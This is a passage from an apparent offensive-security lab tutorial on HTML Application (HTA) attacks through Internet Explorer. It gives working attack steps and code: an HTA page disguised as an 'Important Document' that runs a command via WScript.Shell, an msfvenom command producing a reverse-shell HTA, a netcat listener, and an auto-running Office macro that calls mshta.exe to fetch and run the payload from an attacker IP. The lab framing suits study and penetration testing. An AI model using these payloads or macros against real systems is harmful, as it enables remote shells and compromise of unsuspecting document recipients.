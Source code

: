 
In this case:

- The HTA would execute PowerShell, which downloads and executes a payload from a remote server.
- This vector is typically called Drive-by Compromised technique
- This Vector works in Internet explorer but we can leverage this to others browsers

### Lab Demo : HTML Applications

1. Go to `/var/www/html` in your attacker server/machine.
2. Vim PoC.hta
3. after finishing create your page, start the Apache2 server (for example) and host the page on it by typing `sudo systemctl start apache2`
4. go to your target machine and hit your attacker IP machine in the Internet explorer **`and`** the page name
5. It may gives you an warning. remember its just Demo :)

```html
<html>
  <head>
    <title>HTA Attack</title>
    <script>
      var payload = "calc.exe";
      new ActiveXObject("WScript.Shell").Run(payload);
    </script>
  </head>
  <body>
    <h1>Important Document</h1>
    <script>
      self.close();
    </script>
  </body>
</html>
```

---

### Lab Demo : HTA Attack to get a reverse shell.

1. Go to `/var/www/html` in your attacker server/machine.
2. Using MSFvenom :

```bash
~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.X.X LPORT=3535 -f hta-psh -o Rev-shell.hta
```

1. Set up your netcat listener using `nc -lnvp 3535`
2. go to your target machine and hit your attacker IP machine in the Internet explorer **`and`** the page name.
3. Run it and allow and you are in …
4. Note : You can embed a macro to execute this HTA into a Document, like so ⇒

```vbnet
Sub AutoOpen()
	ExecutionHTA
End Sub
----------------------
Sub Document_Open()
	ExecutionHTA
End Sub

Sub ExecutionHTA()
	Dim url As String
	Dim command As String
	url = "http://192.168.X.X/Rev-shell.hta"
	command = "mshta.exe" & url
	shell command, vbNormalFocus
End Sub
```